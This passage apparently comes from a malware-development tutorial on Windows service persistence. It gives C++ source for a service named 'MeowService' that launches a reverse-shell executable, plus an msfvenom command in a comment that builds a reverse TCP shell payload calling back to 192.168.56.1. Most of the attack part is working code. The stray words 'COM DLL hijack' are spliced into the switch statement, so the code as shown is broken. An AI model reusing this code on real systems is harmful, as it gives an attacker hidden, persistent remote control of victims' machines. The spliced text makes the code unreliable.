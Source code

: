 The Service Control Handler was registered in your Service Main Entry point. Each service must have a handler to handle control requests from the SCM:
```cpp
void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.

Also, create function with *evil* logic:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```
